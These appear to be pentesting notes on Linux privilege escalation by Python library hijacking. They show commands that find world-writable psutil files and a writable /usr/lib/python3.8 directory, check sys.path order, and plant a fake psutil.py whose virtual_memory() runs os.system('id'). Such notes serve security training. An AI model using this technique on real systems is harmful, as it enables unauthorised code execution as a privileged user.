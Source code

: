 ```shell
/usr/local/lib/python3.8/dist-packages/psutil/_pslinux.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_psosx.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pssunos.py:def virtual_memory():
/usr/local/lib/python3.8/dist-packages/psutil/_pswindows.py:def virtual_memory():


$ ls -l /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

-rw-r--rw- 1 root staff 87339 Dec 13 20:07 /usr/local/lib/python3.8/dist-packages/psutil/__init__.py
```

change the module by edtiting virtual_memory function 

### Library Path

**To be able to use this variant, two prerequisites are necessary:**
- We must have write permissions to one of the paths having a higher priority on the list.
- The module that is imported by the script is located under one of the lower priority paths listed via the PYTHONPATH variable.



paths higher on the list take priority over ones lower on the list.
```shell
$ python3 -c 'import sys; print("\n".join(sys.path))'

/usr/lib/python38.zip
/usr/lib/python3.8
/usr/lib/python3.8/lib-dynload
/usr/local/lib/python3.8/dist-packages
/usr/lib/python3/dist-packages

$ pip3 show psutil

Location: /usr/local/lib/python3.8/dist-packages
```
Misconfigured Directory Permissions
```shell
$ ls -la /usr/lib/python3.8

total 4916
drwxr-xrwx 30 root root  20480 Dec 14 16:26 .
```

cretae Hijacked Module Contents in psutil.py in /usr/lib/python3.8
```
#!/usr/bin/env python3

import os

def virtual_memory():
    os.system('id')

```
